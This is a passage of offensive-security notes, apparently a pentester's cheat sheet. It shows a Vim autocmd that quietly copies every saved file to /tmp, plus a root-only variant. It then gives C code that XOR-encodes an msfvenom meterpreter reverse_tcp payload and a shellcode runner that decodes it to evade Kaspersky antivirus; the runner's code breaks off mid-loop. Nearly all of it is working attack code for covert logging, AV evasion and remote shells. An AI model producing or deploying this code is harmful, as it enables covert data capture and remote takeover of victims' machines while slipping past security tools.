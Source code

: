 ### VIM config simple keylogger:
#vim #keylogger #config
```bash
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```

for logging root only changes to the file:
#vim #root #keylogger #config
```bash
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

## Bypass AV on Linux

There are certain usage of **kesl-control** that I do not note here, if every needed refer to the book. It is vendor specific Kaspersky. 

To bypass Kaspersky it is enough to compile the C shellcode runner with XOR encoding:
#av-bypass #c #linux #shellcode-runner

XOR encoder for the payload:
#xor #linux #av-bypass #encoding 

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Our payload generated by msfvenom
// msfvenom -p linux/x64/meterpreter/reverse_tcp LPORT=443 LHOST=host -f c
unsigned char buf[] =
"<meterpreter>";


int main (int argc, char **argv)
{
char xor_key = 'J';
int payload_length = (int) sizeof(buf);
for (int i=0; i<payload_length; i++)
{
printf("\\x%02X",buf[i]^xor_key);
}
return 0;
}
```


Then the shellcode runner with the XOR decoder:
#av-bypass #c #linux #shellcode-runner #xor #decoding
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Our obfuscated shellcode
unsigned char buf[] =
"\x20\x73\x12\x45\x4F\x02\xCF\x8A...x32\x71\x02\xDD\x02\xF3\x48";

int main (int argc, char **argv)
{
char xor_key = 'J';
int arraysize = (int) sizeof(buf);
for (int i=0; i<arraysize-1; i++)
{
buf[i] = buf[i]^xor_key;
```